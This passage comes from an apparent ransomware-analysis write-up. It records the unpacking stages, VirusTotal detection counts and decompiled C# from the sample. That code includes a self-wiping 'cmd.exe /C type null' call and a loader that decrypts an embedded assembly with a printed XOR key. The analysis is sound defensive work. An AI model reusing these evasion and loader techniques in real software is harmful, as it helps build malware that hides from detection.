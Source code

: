 
          if __name__ == "__main__":
            main( sys.argv[1:] )
        ```
    
 - So 2nd unpack, now we have 'output_ransomware-cleaned.exe', and the file extracted has signature name 'gdi32.dll', that is a graphic library, but in this case ain't it, of course
 - The executable is packed again with deepsea 4.1, now we have 'output_ransomware-cleaned-cleaned.exe'
 - uploaded on virus total, found 0/60 virus tracking, now that i'm updating this 12/27/2019 is 31/60, and the first time it was recognized as malware was in 2019-06-19 :)
 - trying IDA + DnsPy, found many interesting functions, in particular:

      - Program.constructor :
        ```
        static Program()
        {
          try
          {
            //return false, but before uses some delegates function to call sleep(2500)
            Class5.smethod_0(2500); 

            //return the executable name and then set his content to null by executing 'cmd.exe /C type null > ..'
            Class12.smethod_0(Environment.GetCommandLineArgs()[0]); 

            //return array of byte xored  .. we extracted later and seems it is a PGP secret key file
            AppDomain.CurrentDomain.AssemblyResolve += Program.<>c.<>9.method_0; 
          }
          catch (Exception)
          {
          }
        }
        ```

      - Program.<>c.<>9.method_0 :
        ```
       	internal Assembly method_0(object object_0, ResolveEventArgs resolveEventArgs_0)
        {
          Program.Class18 @class = new Program.Class18();
          @class.string_0 = new AssemblyName(resolveEventArgs_0.Name).Name + ".mdb";
          Assembly executingAssembly = Assembly.GetExecutingAssembly();
          string text = executingAssembly.GetManifestResourceNames().FirstOrDefault(new Func<string, bool>(@class.method_0));
          if (text == null)
          {
            return null;
          }
          Assembly result;
          using (Stream manifestResourceStream = executingAssembly.GetManifestResourceStream(text))
          {
            byte[] array = new byte[manifestResourceStream.Length];
            manifestResourceStream.Read(array, 0, array.Length);
            result = Assembly.Load(Program.D(array, new byte[]
            { 216, 37, 234, 75, 173, 181, 32, 27, 146, 14, 61, 8, byte.MaxValue, 62, 172, 235, 201, 198, 196, 81, 110, 116, 186, 4, 79, 
              56, 148, 95, 191, 209, 117, 169, 231, 2, 42 }));
          }
          return result;
        }
        ```
      